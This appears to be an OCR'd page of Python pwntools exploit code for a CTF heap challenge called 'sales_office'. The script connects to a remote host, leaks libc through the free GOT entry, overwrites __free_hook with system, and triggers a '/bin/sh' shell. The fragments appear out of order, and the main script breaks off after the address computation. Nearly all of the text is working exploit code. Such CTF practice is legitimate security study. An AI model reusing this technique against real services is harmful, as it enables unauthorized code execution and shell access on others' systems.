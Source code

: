 ```
add(0x20,'a'*0x20)
add(0x10,p64(free_hook))
add(0x20,'/bin/sh\x00')
add(0x10,p64(system))
delete(7)
#z()
ctx.interactive()
```
```plain
#keer
import sys
from pwn import *
from ctypes import *
from pwn_debug.pwn_debug import *
binary='sales_office'
elf=ELF(binary)
pdbg=pwn_debug(binary)
pdbg.local("/lib/x86_64-linux-gnu/libc.so.6")
pdbg.debug("2.27")
pdbg.remote('183.129.189.60',10060)
pdbg.context.log_level='debug'
while True :
	# try :
		if len(sys.argv)==1 :
			io=pdbg.run("debug")
			# io=pdbg.run("local")
			libc=pdbg.libc
			one_gadgaet=[0x45216,0x4526a,0xf02a4,0xf1147]
			# one_gadgaet=[0x41602,0x41656,0xdef36]
		else :
			io=pdbg.run("remote")
			libc=ELF('./libc.so.6')
			# libc=ELF('../../x64libc/libc.so.6')
			# one_gadgaet=[0x4f2c5,0x4f322,0x10a38c]
			one_gadgaet=[0x45216,0x4526a,0xf02a4,0xf1147]

		def add(a,c):
			io.sendlineafter('choice:','1')
			io.sendlineafter('Please input the size of your house:',str(a))
			io.sendafter('please decorate your house:',c)
		def delete(a):
			io.sendlineafter('choice:','4')
			io.sendlineafter('index:\n',str(a))

		def show(a):
			io.sendlineafter('choice:','3')
			io.sendlineafter('index:\n',str(a))
		
		
		add(0x28,(p64(0)+p64(0x61))*1)
		add(0x28,(p64(0)+p64(0x21))*1)
		add(0x38,(p64(0)+p64(0x21))*1)
		add(0x48,'a')
		add(0x58,'/bin/sh\x00')
		delete(1)
		delete(0)
		add(0x18,p64(elf.got['free']))
		show(1)
		libc_base=u64(io.recvuntil('\x7f')[-6:]+'\x00\x00')-libc.sym['free']
		libc.address=libc_base
		system_addr=libc.sym['system']
		bin_sh_addr=libc.search('/bin/sh\x00').next()

```